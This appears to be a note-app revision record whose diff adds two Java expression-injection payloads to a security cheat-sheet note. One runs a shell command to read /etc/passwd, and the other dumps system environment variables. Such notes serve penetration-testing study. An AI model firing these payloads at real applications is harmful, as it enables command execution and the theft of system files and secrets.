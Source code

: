 id: 814adfecc86142de813c42c2a206ec03
parent_id: 83128e94d3244779af44e05f54f1b848
item_type: 1
item_id: fe2a22d7cb024a1f8391cc980193d087
item_updated_time: 1657558944359
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"age used\"],[1,\"\\\n\\\n# Java\\\n\\\n## Get /etc/passwd\\\n\\\n${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}\\\n\\\nRetrieve System env vars\\\n\\\n${T(java.lang.System).getenv()}\"]],\"start1\":116,\"start2\":116,\"length1\":8,\"length2\":156}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T06:43:24.607Z
created_time: 2022-07-12T06:43:24.607Z
type_: 13